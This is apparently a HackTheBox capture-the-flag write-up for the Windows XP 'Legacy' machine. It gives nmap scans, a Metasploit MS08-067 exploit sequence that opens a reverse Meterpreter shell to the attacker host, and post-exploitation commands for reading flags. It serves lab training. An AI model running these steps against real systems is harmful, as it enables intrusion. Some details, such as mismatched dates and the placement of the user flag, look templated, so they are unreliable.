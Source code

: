 # HackTheBox - Legacy

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Legacy |
| **Category** | Windows Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-18 |

## Objective 🎯

Legacy is a Windows XP machine vulnerable to the MS08-067 vulnerability. The goal is to exploit this vulnerability to gain system access and obtain both user and root flags. Old school Windows exploitation! 🖥️

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.4
- **OS**: Windows XP
- **Vulnerability**: MS08-067

### Tools Used
- Nmap
- Metasploit
- MS08-067 exploit

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.4
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.4
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.4
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsft-ds  Microsoft Windows XP microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows_xp
```

### Step 2: OS Detection
Confirm the operating system version.

**Command/Code:**
```bash
nmap -O 10.10.10.4
```

**Output:**
```
Running: Microsoft Windows XP|2003
OS CPE: cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_2003::sp1
OS details: Microsoft Windows XP SP2 or Windows 2003 SP1
```

### Step 3: MS08-067 Exploitation
Use Metasploit to exploit the MS08-067 vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST 10.10.14.2
set TARGET 0
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.4:445 - Automatically detecting the target system
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.4:1031) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.

**Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: NT AUTHORITY\SYSTEM
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

### Step 5: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
dir C:\Documents and Settings
dir "C:\Documents and Settings\Administrator\Desktop"
type "C:\Documents and Settings\Administrator\Desktop\user.txt"
```

**Output:**
```
[REDACTED]
```

### Step 6: Find Root Flag
Search for the root flag.

**Command/Code:**
```bash
dir "C:\Documents and Settings\Administrator\Desktop"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

**Output:**
```
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Confirm Windows XP operating system
3. Use Metasploit MS08-067 exploit
4. Gain SYSTEM privileges through the exploit
5. Navigate to Administrator's desktop to find flags
6. Extract both user and root flags

## Key Learnings

- Understanding the MS08-067 vulnerability
- Using Metasploit for Windows XP exploitation
- Post-exploitation techniques with Meterpreter
- Windows XP directory structure differences
- Legacy Windows system exploitation

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning and OS detection
- **Metasploit**: Exploitation framework
- **MS08-067**: NetAPI exploit module

### References
- [MS08-067 Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
- [MS08-067 Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)

## Screenshots

[Add screenshots of nmap scan, Metasploit exploitation, and flag extraction here]

## Tags

`#hackthebox` `#windows` `#ms08-067` `#windows-xp` `#metasploit` `#easy`
